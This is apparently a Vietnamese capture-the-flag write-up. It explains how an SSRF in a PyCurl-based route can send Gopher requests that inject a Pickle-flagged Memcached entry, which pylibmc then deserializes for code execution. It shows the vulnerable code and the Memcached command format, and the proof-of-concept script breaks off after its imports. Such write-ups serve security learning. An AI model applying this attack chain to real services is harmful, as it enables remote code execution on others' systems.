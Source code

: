 Nếu các bạn để ý tại hàm xử lí route `/loadexternalvideo` sẽ thấy 1 lỗi SSRF. Hàm `parse()` sử dùng PyCurl để request. Theo như documentation thì PyCurl là 1 interface của libcurl và đây là những protocol libcurl hỗ trợ:

![](https://i.imgur.com/pV7bHx7.jpg)

Vậy là chúng ta có thể sử dụng Gopher protocol, sound good!

Vậy Memcached Injection nằm ở đâu? Nằm ở chỗ sử dụng thư viện `pylibmc` trong Python. Nếu ai đã đọc qua slide được trình bày tại hội nghị Black Hat thì cũng đã thấy cái table này:

![](https://i.imgur.com/VvpXZM8.jpg)

Chúng ta có thể thấy, nếu dữ liệu chúng ta `set` vào key là 1 Pickle serialized data thì khi `get` cái key này, tùy theo `flags` mà chúng ta gửi lên mà `pylibmc` có deserialize Pickle hay không.

![](https://i.imgur.com/GhRjWz5.jpg)
Flag for Pickle deserialization: `(1 << 0) = 1`

Vậy chúng ta trigger được payload bằng cách nào? Cùng xem lại đoạn code sau:

```python/2,8
def racingboiz101(_key, _value):
    _speedup101 = pylibmc.Client(["127.0.0.1:11211"], binary=False)
    if _speedup101.get(_key) == None:
        _speedup101.set(_key, "Copyright@HelloVietNamv2", time=60)
        _speedup101.set(_value, _value, time=60)
        return _speedup101.get(_key), _speedup101.get(_value)
    else:
        _speedup101.set(_value, _value, time=60)
        return _speedup101.get(_key), _speedup101.get(_value)
```

Vậy để trigger được thì chúng ta cần phải `get` được key mà ta đã `set` cho Memcached trước đó thông qua Gopher protocol.

### Exploit
Dùng Gopher protocol request đến Memcached để `set` 1 key với tên bất kì (gọi key này tên là `this_is_key`) với value là pickle serialized data (aka payload) của chúng ta. Sau đó gọi đến route `/GIFmaker` để trigger cái key này.

Memcached command của chúng ta như sau:
```
set this_is_key 1 10 <payload_length>
<payload>
```
- `this_is_key` - là tên key mà chúng ta muốn set.
- `1` - đây là tham số `flags`, dùng để cho pylibmc biết khi `get` key này sẽ phải deserialize bằng Pickle.
- `10` - expired time, tính bằng giây.
- `<payload_length>` và `<payload>` thì chắc không cần phải giải thích nữa.

#### Proof-of-concept
```python
from time import time
from os import system
import urllib
import pickle
import requests
import random
import sys

ALPHA = "abcdefghijklmnopqrstuvwxyz"
def rand_string(length):
    return ''.join([random.choice(ALPHA) for _ in range(length)])


```